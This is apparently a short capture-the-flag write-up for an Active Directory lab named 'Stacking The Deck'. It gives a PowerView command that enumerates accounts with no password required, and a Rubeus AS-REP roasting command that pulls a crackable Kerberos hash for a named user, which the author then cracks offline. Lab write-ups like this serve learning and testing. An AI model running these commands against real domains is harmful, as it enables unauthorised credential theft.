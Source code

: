 # Content

- [Content](#content)
  - [Question 1](#question-1)
    - [The way to hack](#the-way-to-hack)
    - [Answer](#answer)
  - [Question 2](#question-2)
    - [The way to hack](#the-way-to-hack-1)
    - [Answer](#answer-1)
  
## Question 1

### The way to hack

- I run command
- Payload:
  - `Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol`
  ![Picture](../../Image/Stacking%20The%20Deck/15.png)

### Answer

![Picture](../../Image/Stacking%20The%20Deck/16.png)

## Question 2

### The way to hack

- I run command
- Payload:
  - `.\Rubeus.exe asreproast /user:ygroce /nowrap /format:hashcat`
  - After that, i have the hash krb5 and i just crack it normally.

### Answer

![Picture](../../Image/Stacking%20The%20Deck/17.png)


